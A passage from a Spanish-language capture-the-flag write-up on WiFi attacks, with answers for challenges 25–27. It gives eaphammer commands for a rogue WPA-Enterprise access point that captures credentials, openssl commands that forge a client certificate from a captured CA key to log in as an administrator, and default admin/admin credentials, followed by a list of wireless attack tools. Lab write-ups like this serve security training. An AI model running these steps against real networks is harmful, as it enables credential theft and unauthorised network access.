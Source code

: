 ## 25. Contraseña del Administrador wifi-corp
```bash
# Importar certificados reales descargados
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard import --server-cert server.crt --ca-cert ca.crt --private-key server.key --private-key-passwd whatever

python3 ./eaphammer -i wlan4 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

## 26. Flag en wifi-global AP
```bash
# Generar certificado de cliente
openssl genrsa -out client.key 2048
openssl req -config client.conf -new -key client.key -out client.csr
openssl x509 -days 730 -extfile client.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in client.csr -req -out client.crt

# wpa_tls.conf
network={
 ssid="wifi-global"
 scan_ssid=1
 mode=0
 proto=RSN
 key_mgmt=WPA-EAP
 auth_alg=OPEN
 eap=TLS
 identity="GLOBAL\GlobalAdmin"
 ca_cert="./ca.crt"
 client_cert="./client.crt"
 private_key="./client.key"
 private_key_passwd="whatever" 
}

wpa_supplicant -Dnl80211 -i wlan4 -c wpa_tls.conf
```

## 27. MAC del primer atacante en Nzyme
```bash
# Acceder a http://127.0.0.1:22900/
# Credenciales: admin/admin
# Revisar sección Alerts para encontrar la alerta más antigua
```

## Herramientas Principales Utilizadas
- **airodump-ng/aireplay-ng**: Captura y ataques 802.11
- **aircrack-ng**: Cracking WEP/WPA
- **hashcat**: Cracking de hashes
- **eaphammer**: RogueAP para redes Enterprise
- **wpa_sycophant**: Relay attacks en WPA-Enterprise
- **mdk4**: Brute force de ESSID ocultos
- **besside-ng**: Automatización de ataques WEP
